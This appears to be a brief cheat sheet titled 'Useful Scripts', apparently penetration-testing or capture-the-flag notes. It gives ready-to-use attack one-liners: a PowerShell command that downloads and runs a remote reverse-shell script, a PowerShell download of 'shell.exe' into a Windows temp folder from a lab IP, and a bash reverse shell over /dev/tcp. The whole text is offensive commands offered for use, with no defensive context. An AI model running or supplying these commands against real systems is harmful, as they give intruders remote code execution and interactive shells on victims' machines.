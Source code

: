 # Useful Scripts

## Powershell
- Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it:  
`powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port`  

- Download the exploit file from http.server:  
`powershell -c "Invoke-WebRequest -uri 'http://10.2.18.235:8000/shell2.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`  

## Reverse Shell
rShell.sh: `bash -i >& /dev/tcp/10.2.18.235/1234 0>&1`  
